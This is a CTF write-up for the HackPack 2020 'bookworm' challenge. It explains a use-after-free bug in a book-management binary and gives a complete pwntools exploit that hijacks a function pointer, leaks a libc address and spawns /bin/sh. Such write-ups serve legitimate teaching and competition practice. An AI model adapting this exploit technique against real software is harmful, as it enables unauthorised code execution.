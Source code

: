 ```yaml
---
layout: post
title: HackPack CTF 2020 - bookworm
---
```

> Bookworm: a book collection service.
>
> nc cha.hackpack.club:41720
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
bookworm: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=f10e73f79b28adde024987b5599945dd384a7551, not stripped

Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Target binary provides functionality for creating/deleting books and changing/reading books summary. 

{% highlight shell_session %}
        ***Welcome to Book Worm A Book Collection Service***

1)      Create a Book
2)      Delete a Book
3)      Change Book Summary
4)      Read Book Summary
5)      Quit
>>
{% endhighlight %}

Analyzing binary reveals that following book structure is used:

{% highlight c %}
struct book {
	void (*display_summary)(const char *),
	char *name,
	char *summary
};
{% endhighlight %}

We also can find that challenge contains use-after-free vulnerability. We can create new book, delete it, and then access it data (`summary`) through `read_summary`.

The exploitation strategy is to leak libc address by overwriting `*display_summary` function pointer to `puts@plt` and as a `*summary` set address of `puts@got`. Triggering `read_summary` will reveal `puts@got` address.

{% highlight python %}
create_book(23, "AAAAAAAA", 10, "BBBBBBBB")
delete_book(0)

payload = (
    p64(exe.plt["puts"]) +
    b"D" * 8 +
    p64(exe.got["puts"])
)
create_book(23, payload[:23], 10, "FFFFFFFF")

data = read_book_summary(0)
leak = u64(data[:6].ljust(8, b"\x00"))
libc.address = leak - libc.sym.puts

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
{% endhighlight %}

Using the same technique we can execute `/bin/sh` by setting `*display_summary` function pointer to `system@libc` and as `*summary` set to address of `/bin/sh`.

{% highlight python %}
create_book(23, "HHHHHHHHH", 10, "IIIIIIII")
delete_book(2)

payload = (
    p64(libc.sym.system) +
    b"W" * 8 +
    p64(next(libc.search(b"/bin/sh")))
)
create_book(23, payload[:23], 10, "FFFFFFFF")

io.sendline("4")
io.recvuntil("Select Book ID (0-10): ")
io.sendline("2")

io.interactive()
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./bookworm')
libc = ELF("./libc.so.6")

host = args.HOST or 'cha.hackpack.club'
port = int(args.PORT or 41720)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start(env={"LD_PRELOAD": "./libc.so.6"})

def create_book(name_size, name, summary_size, summary):
    io.sendline("1")
    io.recvuntil("Enter book name size: ")
    io.sendline(str(name_size))

    io.recvuntil("Enter book name: ")
    io.send(name)

    io.recvuntil("Enter book summary size: ")
    io.sendline(str(summary_size))

    io.recvuntil("Enter book summary: ")
    io.send(summary)

    io.recvuntil(">> ")

def delete_book(book_id):
    io.sendline("2")
    io.recvuntil("Select Book ID (0-10): ")
    io.sendline(str(book_id))

    io.recvuntil(">> ")

def read_book_summary(book_id):
    io.sendline("4")
    io.recvuntil("Select Book ID (0-10): ")
    io.sendline(str(book_id))
    data = io.recvuntil(">> ")
    return data

io.recvuntil(">> ")

create_book(23, "AAAAAAAA", 10, "BBBBBBBB")
delete_book(0)

payload = (
    p64(exe.plt["puts"]) +
    b"D" * 8 +
    p64(exe.got["puts"])
)
create_book(23, payload[:23], 10, "FFFFFFFF")

data = read_book_summary(0)
leak = u64(data[:6].ljust(8, b"\x00"))
libc.address = leak - libc.sym.puts

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)

create_book(23, "HHHHHHHHH", 10, "IIIIIIII")
delete_book(2)

payload = (
    p64(libc.sym.system) +
    b"W" * 8 +
    p64(next(libc.search(b"/bin/sh")))
)
create_book(23, payload[:23], 10, "FFFFFFFF")

io.sendline("4")
io.recvuntil("Select Book ID (0-10): ")
io.sendline("2")

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/hackpackctf/bookworm
[decompiled_main]: {{site.baseurl}}/ctf/2020-04-29-hackpackctf-bookworm/decompiled_main.png
